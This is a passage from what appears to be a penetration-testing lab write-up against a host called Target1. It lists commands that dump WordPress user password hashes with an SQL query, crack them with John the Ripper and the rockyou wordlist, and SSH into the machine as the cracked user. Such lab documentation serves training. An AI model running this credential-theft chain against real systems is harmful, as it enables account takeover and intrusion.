     'select user_login, user_pass from wp_users;'
    ![user-passwd](/Images/mysql-user-login-pass_Target1.png)

    Create file wp_hashes.txt
    ![wp-hashes](/Images/wp_hashes_Target1.png)
    
    Use John The Ripper to unhash the password of user steven
    'john --wordlist=/root/Downloads/rockyou.txt /root/Downloads/wp_hashes.txt'
    ![john](/Images/john-steven_Target1.png)

    ssh into Target1 as steven: 'ssh steven@192.168.1.110'
    ![ssh-steven](/Images/ssh-steven_Target1.png)
    